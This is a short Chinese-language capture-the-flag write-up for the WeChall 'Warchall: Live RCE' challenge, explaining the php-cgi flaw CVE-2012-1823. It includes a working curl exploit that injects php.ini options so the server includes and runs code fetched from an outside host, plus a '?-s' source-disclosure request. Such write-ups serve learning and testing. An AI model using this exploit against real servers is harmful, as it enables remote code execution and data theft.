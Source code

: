 ```yaml
---
title: 'Warchall: Live RCE'
author: rk700
layout: post
redirect_from: /writeup/2014/07/03/warchall-live-rce
tags:
  - PHP
  - wechall
---
```

<http://www.wechall.net/challenge/warchall/live_rce/index.php>  
这道题开始试了半天，发现没有注入什么的……然后在网上搜php rce，发现了有这个问题：CVE-2012-1823

根据解释，如果query string中不包含未urlencoded的等号，那么整个query会以空格分词，传给php-cgi。于是我们传-s，就会把php文件源码回显。试了`http://rce.warchall.net/?-s`，发现确实存在这个问题

然后我们就可以远程执行代码了  
{% highlight bash %}
$ curl http://rce.warchall.net/?-dallow_url_include%3dOn+-dauto_prepend_file%3dhttp%3a%2f%2fnabla.users.warchall.net%2f1+-n
{% endhighlight %}
这里会重写php.ini，使`http://nabla.users.warchall.net/1`被包含，于是类似于rfi。最后发现答案在文件`../config.php`中